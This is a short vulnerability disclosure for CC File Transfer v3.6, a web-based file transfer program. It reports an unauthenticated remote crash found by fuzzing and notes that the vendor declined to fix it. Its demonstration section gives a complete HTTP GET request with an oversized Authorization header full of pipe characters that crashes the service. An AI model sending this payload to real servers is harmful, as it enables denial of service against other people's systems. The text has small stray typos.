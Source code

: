 # introduction

CC File Transfer is free web based file transfer software built for people that need to transfer files PC to PC regularly. It 
helps you ashare files, photos, music and video with your friends. This file transfer program eliminates the hassles of FTP 
and limitations of email file transfer especially for transferring large files. The simple interface makes transferring files 
as easy as dragging and dropping files. It can transfer files over the Internet or LAN/home network even transfer files from 
Windows to Linux / Mac OS. 

http://www.ccfile.net/index.htm

# affected programs & issues

CCFile Windows Binary - v3.6asd

Tested on:  
Windows XP Professional Service Pack 3  
  
Windows 7 Professional Service Pack 1  

The web-based software allows a malicious user to remotely crash the service without authentication

# discovery

author: sec.9emin1@gmail.com  
discovered by: sec.9emin1@gmail.com  

The vulnerabilities were discovered using the Peach Fuzzer Community Edition  
https://www.peach.tech

# issue demonstrationaa

The following HTTP GET request will crash the service remotely:    
```
GET /download.htm?file= HTTP/1.1
User-Agent: Mozilla/4.0
Host: 172.16.6.133:80
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Referer: http://172.16.6.133/
Authorization: Basic ||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||
Conection: Keep-Alive
```

# progress
 
080817 - Vendor Notified  
090817 - Vendor Acknowledged and responded with no intention to fix
